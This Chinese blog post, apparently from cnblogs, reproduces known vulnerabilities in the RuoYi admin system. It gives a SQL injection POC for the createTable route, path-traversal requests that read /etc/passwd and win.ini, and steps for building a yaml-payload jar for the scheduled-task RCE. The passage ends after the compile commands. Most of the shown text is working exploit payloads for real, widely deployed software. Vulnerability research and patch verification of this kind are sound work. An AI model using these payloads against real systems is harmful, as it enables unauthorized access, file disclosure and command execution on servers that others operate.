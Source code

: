 ![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094003546-1273988244.png)

### RuoYi4.7.5版本后台sql注入

ruoyi-4.7.5 后台 com/ruoyi/generator/controller/GenController 下/tool/gen/createTable路由存在sql注入。
POC：

```sql
sql=CREATE table ss1 as SELECT/**/* FROM sys_job WHERE 1=1 union/**/SELECT/**/extractvalue(1,concat(0x7e,(select/**/version()),0x7e));
```

![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094117879-2004539382.png)

## 若依后台任意文件读取（CNVD-2021-01931）

### 漏洞简介

若依管理系统是基于springboot的权限管理系统，登录后台后可以读取服务器上的任意文件。影响版本：RuoYi<4.5.1

### 漏洞复现

POC:
`/common/download/resource?resource=/profile/../../../../etc/passwd`
`/common/download/resource?resource=/profile/../../../../Windows/win.ini`
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094245177-1603211581.png)
读取了D盘下的1.txt文件

## 若依后台定时任务RCE

### 漏洞简介

由于若依后台计划任务处，对于传入的“调用目标字符串”没有任何校验，导致攻击者可以调用任意类、方法及参数触发反射执行命令。影响版本：RuoYi<4.6.2

### 漏洞复现

下载payload：https://github.com/artsploit/yaml-payload
下载完成之后我们修改一下 AwesomeScriptEngineFactory.java 这个文件
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094352943-85562530.png)
(mspaint为打开画图板)
然后切换到yaml-payload-master目录
编写yaml-payload.yml文件（如果没有自己创建）
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094434275-467422025.png)
然后在该目录下执行以下命令进行编译(java环境使用的是1.8)

```cpp
javac src/artsploit/AwesomeScriptEngineFactory.java　　　　//编译java文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　//打包成jar包
```
